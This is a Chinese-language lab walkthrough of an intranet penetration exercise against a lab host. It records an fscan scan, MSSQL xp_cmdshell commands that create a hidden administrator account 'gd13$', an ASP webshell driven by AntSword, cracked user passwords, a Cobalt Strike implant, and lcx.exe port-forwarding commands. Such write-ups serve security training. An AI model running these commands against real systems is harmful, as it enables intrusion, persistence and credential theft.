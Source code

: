 ```yaml
---

210903内网渗透:端口转发
---
```


## 210903内网渗透:端口转发



靶场地址

http://192.168.179.75/1.asp



通过fscan扫描得到mssql账号秘密，Navicat链接登录数据库，whoami查看，当前权限为system，创建账号gd13$，密码admin@123，添加到administrator组，通过该账号远程登录，在www目录下写入一句话木马asp，打开kali蚁剑链接



![image-20210831191818764](210903内网渗透端口转发/image-20210831191818764.png)

fscan 扫描目标ip  

`/home/kali/cs4.2/tools/fscan_amd64 -h 192.168.179.75`

![image-20210831192054560](210903内网渗透端口转发/image-20210831192054560.png)

![image-20210831194028029](210903内网渗透端口转发/image-20210831194028029.png)

`exec('xp_cmdshell "whoami"')`

添加用户 gd13$  admin@123 

`exec('xp_cmdshell "net user gd13$ admin@123 /add"')`

![image-20210831202425448](210903内网渗透端口转发/image-20210831202425448.png)

![image-20210831202530309](210903内网渗透端口转发/image-20210831202530309.png)

`exec('xp_cmdshell "net localgroup administrators gd13$ /add"')`

`exec('xp_cmdshell "net localgroup administrators"')`

![image-20210831202648860](210903内网渗透端口转发/image-20210831202648860.png)

![image-20210831203004613](210903内网渗透端口转发/image-20210831203004613.png)

查看user表 里面有管理员账户名密码，虽然解密成功但是，禁止远程登录

![image-20210831203016345](210903内网渗透端口转发/image-20210831203016345.png)

admin 	qwer1234!@#$

![image-20210831204542590](210903内网渗透端口转发/image-20210831204542590.png)

bao  bao123

![image-20210831203215306](210903内网渗透端口转发/image-20210831203215306.png)

![image-20210831205122155](210903内网渗透端口转发/image-20210831205122155.png)



kali中打开cs 链接vps服务器

![image-20210903204618071](210903内网渗透端口转发/image-20210903204618071.png)

![image-20210903204838431](210903内网渗透端口转发/image-20210903204838431.png)

生成Windows版的远控程序

![image-20210903205111769](210903内网渗透端口转发/image-20210903205111769.png)

![image-20210903205153499](210903内网渗透端口转发/image-20210903205153499.png)

使用蚁剑上传远控程序

![image-20210903205420939](210903内网渗透端口转发/image-20210903205420939.png)

双击远控程序，在cs中查看

![image-20210903210054589](210903内网渗透端口转发/image-20210903210054589.png)

![image-20210903210314507](210903内网渗透端口转发/image-20210903210314507.png)

![image-20210903210456317](210903内网渗透端口转发/image-20210903210456317.png)

`shell C:\www\lcx.exe -tran 3333 192.168.1.107 8080`

![image-20210903211135544](210903内网渗透端口转发/image-20210903211135544.png)

![image-20210903211948437](210903内网渗透端口转发/image-20210903211948437.png)



![image-20210903212024618](210903内网渗透端口转发/image-20210903212024618.png)

转发成功，访问75的3333端口，107的8080端口转发成功



![image-20210903212112116](210903内网渗透端口转发/image-20210903212112116.png)

![image-20210903212704462](210903内网渗透端口转发/image-20210903212704462.png)

![image-20210903212729352](210903内网渗透端口转发/image-20210903212729352.png)

use18

`shell C:\www\lcx.exe -tran 4444 192.168.22.187 4444`

![image-20210903222630836](210903内网渗透端口转发/image-20210903222630836.png)

![image-20210903223233650](210903内网渗透端口转发/image-20210903223233650.png)

![image-20210903225319610](210903内网渗透端口转发/image-20210903225319610.png)

![image-20210903225342838](210903内网渗透端口转发/image-20210903225342838.png)

设置用户名和密码Tomcat

![image-20210903230024732](210903内网渗透端口转发/image-20210903230024732.png)

![image-20210903230155364](210903内网渗透端口转发/image-20210903230155364.png)

